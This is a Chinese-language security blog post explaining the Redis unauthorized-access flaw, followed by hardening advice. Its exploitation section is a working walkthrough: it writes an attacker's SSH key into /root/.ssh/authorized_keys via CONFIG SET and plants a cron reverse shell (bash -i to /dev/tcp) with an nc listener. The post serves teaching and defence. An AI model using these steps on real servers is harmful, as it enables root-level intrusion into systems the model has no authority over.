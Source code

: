 ```yaml
---
title: Redis 未授权漏洞简介
date: 2018-07-25 00:00:00
tags:
  - Redis
---
```


> 本文仅供学习交流使用，切勿用于非法用途

<!--more-->

## redis 概述

Redis 是一个开源（BSD 许可）的，内存中的数据结构存储系统，它可以用作数据库、缓存和消息中间件。

redis 协议使用符号前缀标识数据类型

> In RESP, the type of some data depends on the first byte:
>
> - For Simple Strings the first byte of the reply is "> +"
> - For Errors the first byte of the reply is "-"
> - For Integers the first byte of the reply is ":"
> - For Bulk Strings the first byte of the reply is "\$"
> - For Arrays the first byte of the reply is "\*"

## 常用命令

- `GET key`获取 key 值
- `SET key value [expiration EX seconds|PX milliseconds] [NX|XX]` 将键 key 设定为指定的字符串值，覆盖旧值和过期时间
  - EX seconds – 设置键 key 的过期时间/秒
  - PX milliseconds – 设置键 key 的过期时间/毫秒
  - NX – 只有键 key 不存在的时候才会设置 key 的值
  - XX – 只有键 key 存在的时候才会设置 key 的值
- `DEL key [key ...]`删除指定 key 的值，返回删除的 key 的数量
- `KEYS pattern`查找所有符合给定模式 pattern（正则表达式）的 key
- `INFO`返回关于 Redis 服务器的各种信息和统计数值
- `CONFIG GET parameter`读取 redis 服务器的配置文件参数
- `CONFIG SET parameter`设置 redis 服务器的配置文件参数
- `SAVE`将数据保存到磁盘
- `FLUSHDB`删除当前数据库里面的所有数据
- `AUTH password`密码认证

## 未授权利用

- 利用前提：目标机器 redis 端口暴露，未设置密码（或仅设置弱密码）且 redis 运行在高权限用户
- 利用原理：redis 提供的 config 命令可以修改数据文件的位置，通过将自己的公钥写入 redis，然后修改数据文件保存位置，覆盖`~/.ssh/authorized_keys`可以获得服务器访问权限
- 利用过程

```bash
# 连接 redis 默认端口
nc 192.168.1.1 6379

# 尝试查看 redis 信息 提示未认证
info
-NOAUTH Authentication required.

# 认证
auth ${PASSWORD}
+OK

# 查看当前目录
config get dir
*2
$3
dir
$19
/var/lib/redis/6379

# 查看数据文件名
config get dbfilename
*2
$10
dbfilename
$8
dump.rdb

# 设置 x 的值为公钥
set x "\n\n\nssh-rsa AAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n\n\n"
+OK

# 修改目录为 /root/.ssh
config set dir /root/.ssh/
+OK

# 修改数据文件为 authorized_keys
config set dbfilename authorized_keys
+OK

# 保存数据
save
+OK

# 删除 x 的值
del x
:1

# 关闭连接
quit
+OK
```

在 crontab 里写入反弹 shell 同样能够获取目标机器权限

```bash
# 在 crontab 里写入反弹 shell
set x "\n\n\n* * * * * bash -i >& /dev/tcp/192.168.1.1/8888 0>&1\n\n\n"
config set dir /var/spool/cron/
config set dbfilename root
save
```

之后在本机监听端口即可

```
# 本地监听
nc -lvnp 8888

# 查看crontab任务
crontab -l
```

## 防护方式

- 使用强密码`requirepass XXXXXXXXX`
- 关闭外网访问`bind 127.0.0.1`
- 修改默认的端口，一定程度上避免被扫描
- 使用低权限用户启动 redis
- 在 redis.conf 禁用高危命令

```
rename-command FLUSHALL ""
rename-command FLUSHDB ""
rename-command CONFIG ""
rename-command EVAL ""
```

## 参考文献

- [redis](https://redis.io)
- [Redis 未授权访问配合 SSH key 文件利用分析](http://blog.knownsec.com/2015/11/analysis-of-redis-unauthorized-of-expolit/)
